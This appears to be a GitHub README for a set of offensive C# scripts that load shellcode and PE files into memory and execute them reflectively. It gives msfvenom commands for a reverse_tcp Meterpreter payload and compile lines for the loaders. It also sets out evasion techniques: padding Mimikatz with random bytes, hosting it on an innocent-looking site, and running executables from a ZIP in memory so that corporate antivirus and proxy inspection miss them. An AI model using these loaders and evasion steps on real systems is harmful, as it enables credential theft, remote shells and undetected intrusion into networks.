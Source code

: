 C# Scripts
============

Author: Arno0x0x - [@Arno0x0x](https://twitter.com/Arno0x0x)

This repository aims at publishing some of my C# scripts. Some are just forked/inspired from other scripts I found there and there, and I adapted to fit my needs or just to learn and improve.

Decrypt via brute force (bf), then load and execute, an xor encrypted shellcode
----------------

**bfDecryptShellcode.cs**

This script is a little dumb and probably not very useful PoC of a brute force decrypting of a multibyte XOR encrypted shellcode. Once the shellcode is decrypted, it is loaded into memory and executed.

To use it, you need two things:
  1. An multibyte XOR encrypted shellcode
  2. The MD5 hash of the decrypted payload which serves as a marker for knowing that the proper decryption key has been found

You can obtain both by using my [ShellcodeWrapper](https://github.com/Arno0x/ShellcodeWrapper) project and feed it with any **raw** metasploit payload.


Dynamically load and parse a .Net assembly
----------------

**parseAssembly.cs**

This console application will dynamically load a .Net assembly (exe or dll), either from a local file or downloaded from a URL, optionnaly base64 encoded. Once loaded, it will enumerate it's types, method and properties.
Examples:
`parseAssembly.exe myAssembly.dll`
or
`parseAssembly.exe http://some.site.com/myAssembly base64`


Playing with PE and Shellcode reflective injection
----------------
This is a collection of scripts adapted from Casey Smith's ([@subTee](https://twitter.com/subTee)) work on reflectively inject PE or shellcode into the calling process, from various sources.

**peloader.cs**

This scripts loads a base64 encoded **x64** PE file (*for example: Mimikatz or a Meterpreter*) into the process's memory and reflectively executes it. The PE is passed as a base64 string variable at the beginning of the file (yes, it's hardcoded).

You can generate this base64 encoded string from any file using the following \*nix command line:
```
root@kali:~# base64 -w 0 mimikatz.exe > mimikatz.b64
```

Compiling the script on a Windows machine requires the .Net framework (*installed by default on Windows 7 onwards*):
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:peloader.exe peloader.cs
```

**shellcodelauncher.cs**

This script executes a shellcode into the process's memory and reflectively executes it. The shellcode is passed as an array of bytes in a variable. You can get the proper code for this array automatically generated for you with Metasloit's msfvenom utility. For example, to generate a reverse_tcp meterpreter shellcode:

```
root@kali:~# msfvenom -a x86_64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f csharp
```

Compiling the script on a Windows machine requires the .Net framework (*installed by default on Windows 7 onwards*):

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:shellcodeLauncher.exe shellcodeLauncher.cs
```

**runfromzipinmemory.cs**

This script is heavily and shamefully based, inspired, derived from Casey Smith (@subTee) work on Netkatz.

I found out that the local antivirus (*McAfee*) on my corporate workstation is configured to *NOT* analyze the content of a ZIP file, probably on the assumption that whenever this content is to be read or executed it would normally first be extracted somewhere on the disk, and any bad stuff in it would get caught by the AV at that time.

What this script does is loading everything in memory and work only from there, also using reflection to execute a PE from the calling process memory.

So not only the AV doesn't bark at all, but from a forensic perspective, the only "visibly running process" looks perfectly innocent.

Compiling the script on a Windows machine requires the .Net framework (*installed by default on Windows 7 onwards*):
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /reference:System.IO.Compression.dll /out:runfromzipinmemory.exe runfromzipinmemory.cs
```

You can then execute:
```
unfromzipinmemory.exe <zip_file> <exe_from_zip_file_to_be_executed>
```

**netPEloader.cs**

This script is heavily based and inspired from Casey Smith (@subTee) work on Netkatz.

Netkatz is a fantastic PoC of loading the latest mimikatz release from GitHub and execute if straight in memory. However, I faced three problems in my environment:

1. The connection to the internet has to be made through a corporate proxy requiring NTLM authentication (*Windows SSO is OK*)
2. The github page of Mimikatz is blocked by the corporate proxy due to website categorization
3. The mimikatz_trunked.zip file is being detected by the proxy AV (*yes, with SSL inspection turned on at the proxy level*)

So I modified the original netkatz script to address these 3 issues:

1. Added system proxy and default credentials support (*currently logged on Windows user*)
2. Hosting the PE on a non blocked web site, innocent looking like www.dropbox.com
3. As per making the PE undetectable by AV, we could go throuth various obfuscation methods like encrypting, specific encoding, but I like the simple technique of adding 65536 random garbage bytes at the beginning of the real x64 Mimikatz PE:
	- dd if=/dev/urandom of=garbage bs=65536 count=1
	- cat garbage mimikatz.exe > mimiHidden
	- Upload mimiHidden to dropbox and share it	

The URL from where to download the hidden PE is hardcoded in the script.

Compiling the script on a Windows machine requires the .Net framework (*installed by default on Windows 7 onwards*):
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:netPEloader.exe netPEloader.cs
```